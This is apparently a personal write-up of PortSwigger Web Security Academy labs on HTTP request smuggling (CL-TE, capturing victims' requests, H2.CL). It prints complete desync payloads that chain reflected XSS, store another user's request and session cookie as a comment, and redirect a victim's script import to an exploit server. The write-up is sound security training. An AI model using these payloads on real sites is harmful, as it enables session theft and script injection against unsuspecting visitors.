


### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
<i>Note 2: my lab ID will change during the following steps, so you could find some discrepancies between images and the source code</i>
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
<br><br>
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
<br><br>
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
<br><br>
Following the redirect:
<br><br>

Now that we have found the desync vulnerability we need to find the reflected vulnerability. Inspecting the creation of new comment request we can see that the user-agent header is passes as parameter:
<br><br>
Moreover inspecting the post's comment page we can see that the value is reflected into a hidden input field
<br><br>
Let's try to inject the user-agent header:
<br><br>
So our JS payload is reflected, sending the request to the browser (right click on the request body, then 1, 2), copy the provided link into your browser and you get the alert pop-up into the response (eventually you could just use Show response in browser, 3)
<br><br>
Finally we can combine the two vulnerability to solve the lab using the following exploit:
```
POST / HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Transfer-Encoding: chunked

0

GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>
```
In the above POST request the front-end  will pass the  GET as body to the back-end, that understands the transfer-encoding, will treat it as belonging (prepending) to the next request, for istance. Now, after having submitted the exploit, if you visit the post ID 5 you will see the pop-up alert appearing, before to land to the post ID 5 page, since the server will parse the following request:
```
GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>GET /post?postId=5 HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Cookie: session=Wq6CtAqrwzJDZbfX6NZM4Ncn8ZhyCWK1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
...
```
Submit the exploit a couple of time and you will see that the Lab is solved

#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

### Exploiting HTTP request smuggling to capture other users' requests
#### LAB
The lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
Note

<i>Please note that the lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.</i>

Let's analyze the post comment POST request with HTTP Request Smuggler, we can notice that the application seems to be vulnerable:
```
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a75002403d9abc0c0441db8007e009e.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. <br/>
To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/><br/>Please refer to the following posts for further information: <br/><a href="https://portswigger.net/blog/http-desync-attacks">https://portswigger.net/blog/http-desync-attacks</a><br/><a href="https://portswigger.net/research/http-desync-attacks-what-happened-next">https://portswigger.net/research/http-desync-attacks-what-happened-next</a><br/><a href="https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler">https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler</a>
Evidence: 
======================================
POST /post/comment HTTP/1.1
Host: 0a75002403d9abc0c0441db8007e009e.web-security-academy.net
Cookie: session=2VSJ7sk8dcWS6JGAVkwl7EI32AX59A9m
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: https://0a75002403d9abc0c0441db8007e009e.web-security-academy.net
Referer: https://0a75002403d9abc0c0441db8007e009e.web-security-academy.net/post?postId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

68
csrf=dzLCxmZMqjUlkVw8mh0IwMDPbHK6rNln&postId=1&comment=hey&name=zinzloun&email=zinz%40libero.it&website=
1
Z
Q
```
Indeed sending the payload to the back-end server we get an error that confirm that the application is vulnerable
<br><br>
To reach our goal we can try to craft a payload that will send the following user request to be submitted as comment, that will include the user cookie's session, but before that we have to shift the comment to the endo of the request, so the back-end server will process the somthing similar to the following:
```
POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 500
Cookie: session=<your session cookie>

csrf=<your csrf token>&postId=1&name=pippo&email=pippo@disney.com&website=&comment=helloGET / HTTP/1.1
Host: <your lab ID>.web-security-academy.net
Cookie: session=<next user request cookie session>
...
```
<i>Please note that from now on my lab ID, session cookie and csrf token are changed</i>

The actual whole payload is the following:
```
POST / HTTP/1.1
Host: 0a21005303031c2fc4c8baad008900ec.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 255
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: session=ZZsK2rpFWaKEUTCA1xArdkZ8lwa7mjzL
Content-Length: 500

csrf=RDuJHPY0aeoHk4xr17jYAIzuuWk7PhYg&postId=3&name=pippo&email=pippo@disney.com&website=&comment=d
```
Here I use the <b>d</b> letter as place-holder, that I will change for every request sent to the back-end. So sending the payload, wait some second and visit the post ID 3, we can see that a post is present containing the request header of the victim (1). The cookie is not included so we have to increase the value of the content length for the POST comment request. I tried with 800 (2)
<br><br>
Then I struggled a bit to find the right length, since if it exceed the actual length of the victim request we got a server error, after some attempts I found the correct value: <b>783</b>
<br><br>
Now with session cookie value we cant try to access the my-account page, before doing that enable the Intercept in the Proxy, once you get the request change the cookie value with the one you got in the previous step, forward the request to solve the lab
<br>

### H2<span>.</span>CL request smuggling
This vulnerability works in principle similar to the TE<span>.</span>CL vulnerability but here the front-end uses HTTP/2 and ignores the Content-Length Header, that is passed unchanged to the back-end. The back-end uses HTTP/1.1 and therefore interprets the Content-Length header.

Since the back-end finishes processing the request earlier than what the front-end sent due to the content length being 0, the rest of the request remains in the pipeline between the front-end and the back-end. As soon as a next request arrives, the remainder of the previous request that is still in the pipeline is added before this new request. So a new request would look like this in the back-end.


#### Lab
The lab is vulnerable to request smuggling because the front-end server uses HTTP/2 and ignore content-length, passing the header to backend, that indeed supports this header. 

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds.
<i>Note the lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, <b>you need to enable the Allow HTTP/2 ALPN override option and manually change the protocol to HTTP/2 using the Inspector.</b></i> 

Again we can use HTTP request smuggler -> HTTP/2 probe. I found an issue related to TE

    Updating active thread pool size to 8
    Loop 0
    Queued 1 attacks from 1 requests in 0 seconds
    Found issue: HTTP/2 TE desync v10a h2path
    Target: https://0a43007104f02a22c25d6645005f00cd.web-security-academy.net
    .
    Evidence: 
    ======================================
    POST / HTTP/2
    Host: 0a43007104f02a22c25d6645005f00cd.web-security-academy.net
    Cookie: session=jlafxRkB3HnK8xF3sbEW7xAm45Yu4ahZ
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: https://0a43007104f02a22c25d6645005f00cd.web-security-academy.net/
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    :path: / HTTP/1.1^~Transfer-Encoding: chunked^~x: x

    3
    x=y
    0
But actually it wasn't clear to me, since the Lab referes to CL vulnerability, the POC here shows a possible TE vulnerability. In the logger we can see the request path that caused the server error
<br><br>
Anyway the important thing here is that the back-end supports HTTP/1 request. Now let's try to set the content length to 0 following some dummy data (remember that in HTTP/2 there is data-frame length field, so the Content-Length header is not required anymore. However, the HTTP/2 RFC states that this header is permitted, provided it's correct).
<br><br>
The second time we send the request we got a not found error, that confirm that the back-end server is vulnerable to CL smuggling as well.
Reading the hint we know that to exploit tha application we have to poison the request immediately before the victim's browser attempts to import a JavaScript resource, injecting our malicious payload. To accomplish that we have to induce the backe-end server to perform a redirect to our exploit server. Looking to the HTML source code we can see that the JS scripts reside into the resources folder

    ...
    <body>
        <script type="text/javascript" src="/resources/js/analyticsFetcher.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
    ...
Let's first try using a dummy value for the host to see if the redirection takes place (again submit the request 2 times)
<br><br>
<i>Please note that from here my lab ID and session cookie changed</i>
Now we can host our malicious payload to steal the cookie of another user (the user that will perform the next request after we sent the smuggling request). First we oper the exploit server to configure our malicious JS code to get the user's cookie:
<br><br>
As shown above we changed the file to point to the application resources folder (1), in the body we put out exploit (2) then click store (3) to save the changes. 

Come back to Repeater and change the request as follows:

    POST / HTTP/2
    Host: 0a4300da044d4acac1ceb7d000340089.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: exploit-0ab80047045f4ae4c1c7b61f01e70076.exploit-server.net
    Content-Length: 3

    A

Send the request two times and you should get a redirect to the exploit server. No check the access log on the exploit server (4 in the above iamge) and you should see that the Victim actually requested the exploit (1)
<br><br>
Now keep submitting your request until the lab is solved, here the tricky part is that we have to inject the smuggler request immediately before the victim's browser attempts to import a JS resource, otherwise, although the victim requests our malicious JS payload, it won't execute it. Be patiend, to me it taked almost a hour 😥

#### Reference
+ https://portswigger.net/research/http2#introduction
+ https://www.digitalocean.com/community/tutorials/http-1-1-vs-http-2-what-s-the-difference
+ https://www.scip.ch/en/?labs.20220707 
+ https://book.hacktricks.xyz/pentesting-web/http-request-smuggling/request-smuggling-in-http-2-downgrades

